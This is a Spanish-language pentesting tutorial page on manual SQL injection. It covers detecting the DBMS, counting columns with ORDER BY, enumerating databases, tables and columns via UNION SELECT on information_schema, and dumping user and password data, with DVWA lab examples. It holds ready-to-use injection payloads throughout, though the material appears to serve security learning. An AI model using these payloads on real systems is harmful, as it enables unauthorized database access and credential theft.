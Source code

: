 ```yaml
---
description: Extrayendo información despues de obtener acceso a la base de datos.
---
```


# EXTRACCIÓN DE INFORMACIÓN.

## **DETECTANDO GESTOR DE BASE DE DATOS**

**1.** Utilizar herramientas como **NMAP** o similares

* Puerto 3306 MySQL por defecto

&#x20;**2.** Utilizar **TABLA DE CONCATENACION:**

|  GESTOR     |  'a' \|\| 'b' |  'a' + 'b' |  concat('a','b') |
| ----------- | ------------- | ---------- | ---------------- |
|  Oracle     |  'ab'         |  ERROR     |  'ab'            |
|  PostgreSQL |  'ab'         |  ERROR     |  ERROR           |
|  MySQL      |  0            |  'ab'      |  'ab'            |
|  SQL Server |  ERROR        |  'ab'      |  ERROR           |

&#x20;Si introduce como input alguna de las siguientes concatenaciones, sabrá que GESTOR es mas posible que sea en funcion del resultado obtenido.

&#x20;Tambien puede utilizar:

&#x20;`@@Version` → Para MySQL y MsSQL\
&#x20;`Version()` → PostgreSQL y MySQL\
&#x20;`banner FROM v$version` → Oracle

## **DETERMINANDO CANTIDAD DE COLUMNAS**

&#x20;El metodo variara en caso de que la inyeccion sea **Integer** o **String**:

### &#x20;**1. INTEGER**

&#x20;Primero debo comprobar que la web es vulnerable a SQL Injection.

&#x20;En este caso, utilizo `-1` en vez de (') por ser inyección de integer.

&#x20;Despues utilizo **`-1 ORDER BY 5 -- -`** Para ordenar las columnas de 5 en 5.

&#x20;Continuo con **`-1 ORDER BY 10 -- -`** Y resulta que me da error al no encontrar la columna numero 10.

&#x20;Intento con **`-1 ORDER BY 8 -- -`** Y no me da error.

&#x20;En cambio con **`-1 ORDER BY 9 -- -`** Si que da error.

&#x20;Por lo tanto, el numero de columnas es exactamente 8.

&#x20;Por ultimo, para comprobar hago **`-1 UNION SELECT 1,2,3,4,5,6,7,8 -- -`** Y no me da ningun error.

### &#x20;**2. CADENA**

&#x20;Primero debo comprobar con (') que la web es vulnerable a SQL Injection.

&#x20;Despues utilizo **`' ORDER BY 5 -- -`** Para ordenar las columnas de 5 en 5.

&#x20;Continuo con **`' ORDER BY 10 -- -`** Y resulta que me da error al no encontrar la columna numero 10.

&#x20;Intento con **`' ORDER BY 8 -- -`** Y no me da error.

&#x20;En cambio con **`' ORDER BY 9 -- -`** Si que da error.

&#x20;Por lo tanto, el numero de columnas es exactamente 8.

&#x20;Por ultimo, para comprobar hago **`' UNION SELECT 1,2,3,4,5,6,7,8 -- -`** Y no me da ningun error.

## &#x20;**DETERMINANDO NOMBRE DE LA BASE DE DATOS / TABLAS / COLUMNAS**

&#x20;**1.** Lo primero como ya hemos visto es comprobar que es vulnerable **(')**

&#x20;**2.** Despues compruebo el numero de columnas con **`ORDER BY`** como en el punto anterior.

&#x20;**3.** Utilizo **`' UNION SELECT 1,2 -- -`** para comprobar y si no me da error, esta correcto.

&#x20;**4**. Ahora puedo cambiar 1 y 2 por otro tipo de informaciones sacadas de la tabla:

&#x20;**`' UNION SELECT @@version,2 -- -`** → muestra la version donde deberia estar el valor de 1.

&#x20;``` `**`' UNION SELECT table_schema,2 FROM information_schema.schemata -- -`** → muestra los nombres de las bases de datos.

&#x20;**`' UNION SELECT table_schema,table_name FROM information_schema.tables -- -`** → muestra el nombre de las tablas y a que Base de datos pertenece.

&#x20;**`' UNION SELECT table_name,column_name FROM information_schema.columns -- -`** → muestra el nombre de las tablas y las columnas que le pertenecen.

## &#x20;**FILTRANDO DATOS DE SALIDA PARA OPTIMIZAR**

&#x20;Ya sabemos como extraer mucha informacion de la base de datos, pero, en ocasiones, se da el caso de que la web solo nos ofrece una pieza de informacion. O por el contrario, nos ofrece toda la informacion posible. Es por eso que tengo que saber como filtrar la informacion.

&#x20;**1.** Compruebo que base de datos quiero atacar.

&#x20;**`' UNION SELECT table_schema,2 FROM information_schema.tables -- -`**

&#x20;Asi obtengo los nombres de las bases de datos y elijo la que yo quiero atacar.

&#x20;**2.** Ahora, para obtener las tablas de esta base de datos tengo que filtrar:

&#x20;**`‘ UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=’dvwa' -- -`**

&#x20;Ahora solo veo las tablas de la Base de datos “dvwa” por lo que puedo elegir la tabla que quiero atacar.

&#x20;**3.** Seguimos para obtener las columnas de la tabla “users”

&#x20;**`‘ UNION SELECT column_name,2 FROM information_schema.columns WHERE table_schema=’dvwa' AND table_name='users' -- -`**

&#x20;Ya obtengo las columnas dentro de la tabla users de la base de datos dvwa. Ya solo queda sacar la informacion de las columnas.

&#x20;Si solo puedo ver un dato al mismo tiempo, debo empezar a concatenar AND y != para ir navegando por cada una de las Bases de Datos, Luego tablas, luego columnas y por ultimo datos.

&#x20;**`' UNION SELECT table_schema,2 FROM information_schema.tables WHERE table_schema!=dvwa AND table_schema!=fonts -- -`**

&#x20;Asi, filtrando poco a poco vamos obteniendo la informacion que queremos.

## &#x20;**EXTRAER TODOS LOS DATOS DE UNA BASE DE DATOS**

&#x20;Ya hemos conseguido alcanzar la COLUMNA de la TABLA de la BASE DE DATOS que nos interesa. Ahora necesitamos sacar la informacion de esta columna:

&#x20;**`' UNION SELECT user,password FROM users -- -`**

&#x20;Como ya sabemos la tabla de la que queremos sacar la informacion, no hace falta nada mas.

## &#x20;**EXTRAER INFORMACION CON METODO POST**

&#x20;En todos los casos anteriores hemos utilizado el metodo **GET**, es decir, modificando el URL.

&#x20;El metodo **POST** no me permite mostrar ni modificar los datos en el URL,

&#x20;Para hacer las consultas con el metodo **POST** necesito una herramienta como **BURP SUITE** para modificar la solicitud **POST** en caliente antes de la transmision.

&#x20;El procedimiento para obtener la informacion seria el mismo.
